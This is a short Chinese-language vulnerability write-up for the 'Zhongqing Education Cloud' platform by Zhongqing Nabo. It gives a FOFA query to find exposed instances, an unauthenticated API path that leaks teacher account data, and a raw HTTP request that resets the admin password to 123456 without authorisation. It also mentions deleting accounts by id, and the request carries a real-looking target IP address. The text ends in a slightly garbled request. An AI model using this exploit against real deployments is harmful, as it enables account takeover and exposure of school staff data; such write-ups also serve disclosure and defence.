

# 中庆纳博某系统敏感信息泄露+未授权漏洞

## 漏洞描述

北京中庆纳博信息技术有限公司，简称中庆纳博，是有20年历史的中庆集团旗下核心企业，专注于教育信息化的深度应用领域。产品以教育软件为主，核心产品为“中庆教育云”平台。公司成立三年多来，客户已遍及全国各地，“中庆教育云”亦成为业内的知名品牌，该系统api接口存在信息泄露，并且可以进行任意密码重置。

## 漏洞影响

> 中庆纳博

## FOFA

> "中庆纳博"

## 漏洞复现

登录页面如下：


通过访问url可以获取账号等敏感信息：

```
/api/TeacherQuery/SearchTeacherInSiteWithPagerRecords
```



获取到账号以后，可以进行密码重置，默认密码为123456，payload：

```
POST /api/User/ResetPassword HTTP/1.1
Host: xxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: application/json, text/plain, /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 23
Origin: http://117.36.154.34:8010
DNT: 1
Connection: close
Referer: http://xxxxxxxx/default/admin/user/index{"loginName":"admin"}也可以通过 id删除账户
```

